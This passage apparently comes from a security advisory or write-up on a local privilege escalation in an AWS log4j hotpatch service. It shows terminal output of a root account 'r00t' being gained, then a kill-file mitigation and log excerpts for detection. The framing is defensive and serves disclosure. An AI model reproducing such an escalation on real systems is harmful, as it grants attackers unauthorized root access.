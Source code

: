 ```plain
sys     0m0.685s
```

Check `/win` and enjoy r00t:

```plain
[ec2-user@ip-172-31-29-188 ~]$ cat /win
uid=0(root) gid=0(root) groups=0(root)

[ec2-user@ip-172-31-29-188 ~]$ su - r00t

[root@ip-172-31-29-188 ~]# id
uid=0(root) gid=0(root) groups=0(root)
```

## Mitigation

Create the file `/etc/log4j-cve-2021-44228-hotpatch.kill` to prevent the hotpatch from operating.

## Detection

Exploitation of the vulnerability tends to cause a lot of noise in the system logs:

```plain
May  4 23:33:15 ip-172-31-19-65 log4j-cve-2021-44228-hotpatch: [log4j-hotpatch] Starting up now...
May  4 23:33:15 ip-172-31-19-65 log4j-cve-2021-44228-hotpatch: [log4j-hotpatch] Found JVMs with pids [26762 26763 26764 26765 26766 26767 26768 26769 26770 26771 26772 26773 26774 26775 26776 26777 26778 26779 26780 26781 26782 26783 26784 26785 26786 2678
7 26788 26789 26790 26791 26792 26793]
May  4 23:33:15 ip-172-31-19-65 log4j-cve-2021-44228-hotpatch: [log4j-hotpatch] Attempting to patch 26762
May  4 23:33:15 ip-172-31-19-65 log4j-cve-2021-44228-hotpatch: [log4j-hotpatch] Found JVM for pid 26762 at /home/ec2-user/eop
May  4 23:33:15 ip-172-31-19-65 log4j-cve-2021-44228-hotpatch: [log4j-hotpatch] Found JVM running with effective UID of 1000
May  4 23:33:15 ip-172-31-19-65 log4j-cve-2021-44228-hotpatch: [log4j-hotpatch] JVM version is
May  4 23:33:15 ip-172-31-19-65 log4j-cve-2021-44228-hotpatch: [log4j-hotpatch] Skipping unsupported JVM kind:
May  4 23:33:15 ip-172-31-19-65 log4j-cve-2021-44228-hotpatch: [log4j-hotpatch] Attempting to patch 26763
May  4 23:33:15 ip-172-31-19-65 log4j-cve-2021-44228-hotpatch: [log4j-hotpatch] Found JVM for pid 26763 at /home/ec2-user/eop
May  4 23:33:15 ip-172-31-19-65 log4j-cve-2021-44228-hotpatch: [log4j-hotpatch] Found JVM running with effective UID of 1000
May  4 23:33:16 ip-172-31-19-65 log4j-cve-2021-44228-hotpatch: [log4j-hotpatch] JVM version is
May  4 23:33:16 ip-172-31-19-65 log4j-cve-2021-44228-hotpatch: [log4j-hotpatch] Skipping unsupported JVM kind:
May  4 23:33:16 ip-172-31-19-65 log4j-cve-2021-44228-hotpatch: [log4j-hotpatch] Attempting to patch 26764
May  4 23:33:16 ip-172-31-19-65 log4j-cve-2021-44228-hotpatch: [log4j-hotpatch] JVM 26764 not started yet, waiting...
May  4 23:33:17 ip-172-31-19-65 log4j-cve-2021-44228-hotpatch: grep: /proc/26764/status: No such file or directory
May  4 23:33:17 ip-172-31-19-65 log4j-cve-2021-44228-hotpatch: [log4j-hotpatch] Running in a container with container pid:
May  4 23:33:17 ip-172-31-19-65 log4j-cve-2021-44228-hotpatch: [log4j-hotpatch] Failed to read exe name from pid 26764, skipping.
May  4 23:33:17 ip-172-31-19-65 log4j-cve-2021-44228-hotpatch: [log4j-hotpatch] Attempting to patch 26765
May  4 23:33:17 ip-172-31-19-65 log4j-cve-2021-44228-hotpatch: grep: /proc/26765/status: No such file or directory
May  4 23:33:17 ip-172-31-19-65 log4j-cve-2021-44228-hotpatch: [log4j-hotpatch] Running in a container with container pid:
```